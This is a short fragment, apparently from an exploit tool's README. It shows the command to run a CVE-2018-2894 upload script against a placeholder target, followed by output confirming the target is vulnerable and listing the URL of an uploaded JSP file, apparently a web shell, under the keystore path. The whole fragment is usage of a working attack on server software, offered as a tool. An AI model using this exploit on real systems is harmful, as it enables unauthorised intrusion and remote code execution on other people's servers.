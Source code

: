 python cve-2018-2894_upload.py -t http://IP:PORT
[*] First Deploying Website Please wait a moment ...
[+] http://IP:PORT exists CVE-2018-2894
[+] Check URL: http://IP:PORT/ws_utc/css/config/keystore/1585895893159_360sglab.jsp 
